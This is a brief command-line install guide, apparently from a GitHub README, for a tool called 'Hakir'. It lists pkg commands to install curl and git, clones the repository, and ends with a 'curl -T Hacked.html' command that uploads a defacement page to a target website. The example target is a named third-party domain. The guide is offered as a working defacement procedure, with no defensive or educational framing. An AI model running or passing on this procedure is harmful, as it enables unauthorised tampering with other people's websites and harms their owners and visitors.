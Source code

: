 
$ pkg update


$ pkg upgrade


$ pkg install curl


$ pkg install libcurl


$ pkg install git


$ git clone https://github.com/Kentcoyj/Hakir


$ cd Hakir


$ curl -T Hacked.html Target(example: https://sus.co.za/)



